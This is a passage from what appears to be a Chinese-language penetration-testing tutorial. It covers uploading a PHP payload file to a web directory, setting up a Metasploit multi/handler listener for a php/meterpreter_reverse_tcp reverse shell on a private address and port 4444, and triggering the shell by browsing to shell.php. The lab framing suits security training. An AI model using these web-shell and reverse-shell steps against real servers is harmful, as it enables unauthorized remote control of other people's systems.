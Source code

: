 #### 5.6.2.2.**发送payload文件**

这里将构建号的payload文件发送到web目录下。

![img](assets/wps37.jpg) 

#### 5.6.2.3.**监听payload文件**

msfconsole

use exploit/multi/handler

set PAYLOAD php/meterpreter_reverse_tcp

set LHOST 192.168.10.20

set LPORT  4444

set ExitOnSession false

exploit -j -z

![img](assets/wps38.jpg) 

#### 5.6.2.4.**运行payload文件**

这里运行payload文件可以在浏览器中访问shell.php文件。

![img](assets/wps39.jpg) 
